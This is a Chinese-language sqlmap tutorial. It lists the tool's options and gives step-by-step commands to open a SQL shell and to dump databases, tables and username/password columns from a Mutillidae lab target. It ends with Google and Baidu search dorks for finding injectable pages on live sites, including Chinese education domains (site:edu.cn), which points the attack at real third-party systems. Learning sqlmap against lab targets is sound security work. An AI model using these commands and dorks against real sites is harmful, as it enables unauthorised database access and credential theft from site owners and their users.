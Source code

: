 # 一、sqlmap简介
SQLmap是一个国内外著名的安全稳定性测试工具，可以用来进行自动化检测，利用SQL注入漏洞，获取数据库服务器的权限。它具有功能强大的检测引擎，针对各种不同类型数据库的安全稳定性测试的功能选项，包括获取数据库中存储的数据，访问操作系统文件甚至可以通过外带数据连接的方式执行操作系统命令。

SQLmap支持Mysql，Oracle，PostgreSQL，Microsoft SQL Server，Microsoft Access，IBM DB2,SQLite，等数据库的各种安全漏洞检测。

## 1.1 sqlmap 参数解析
```
--users       # 查看所有用户
--current-user   # 查看当用户
--dbs         # 查看所有数据库
--current-db   # 查看当前数据库
-D “database_name” --tables  # 查看表
-D “database_name” -T “table_name” --columns  # 查看表的列

--dump -all
--dump-all --exclude-sysdbs
-D “database_name” -T “table_name” --dump
-D “database_name” -T “table_name” -C “username,password” --dump

--batch  # 自动化完成
```

# 二、sqlmap自动化注入
 - GET方法注入
 - Post方式注入
 - 数据获取
 - 提权操作

## 2.4 提权操作
与数据库交互--sql-shell
```bash
sqlmap -u “http://192.168.xxx.xxx/test/?id=1” --cookie=”SESSIONID=xxxxxx;security=low;showhints=1”; acopendivids=swingset,jotto;acgroupswithpersist=nada” --batch --sql-shell

# 进入到了sql-shell命令行方式
sql-shell> select * from users;
```

## 示例步骤：
### 1.获得当前数据库
```bash
sqlmap -u “http://192.168.xx.xx/mutillidae/index.php?page=user-info.php&username=test&password=123&user-info-php-submit-button=View+Account+Details” --batch --current-db
```

### 2.获得数据库表
```bash
sqlmap -u “http://192.168.xx.xx/mutillidae/index.php?page=user-info.php&username=test&password=123&user-info-php-submit-button=View+Account+Details” --batch -D database --tables
```

### 3.获得表的字段
```bash
sqlmap -u “http://192.168.xx.xx/mutillidae/index.php?page=user-info.php&username=test&password=123&user-info-php-submit-button=View+Account+Details” --batch -D database -T accounts --columns
```

### 4.获得表中的数据
```bash
sqlmap -u “http://192.168.xx.xx/mutillidae/index.php?page=user-info.php&username=test&password=123&user-info-php-submit-button=View+Account+Details” --batch -D database -T accounts -C "username,password" --dump
```

## 综合示例
### 1.通过google搜索可能存在注入的页面
```
inurl:.php?id=
inurl:.jsp?id=
inurl:.asp?id=
inurl:/admin/login.php
inurl:.php?id= intitle:美女
```
### 2.通过百度搜索可能存在注入的页面
```
inurl:news.asp?id= site:edu.cn
inurl:news.php?id= site:edu.cn
inurl:news.aspx?id= site:edu.cn
```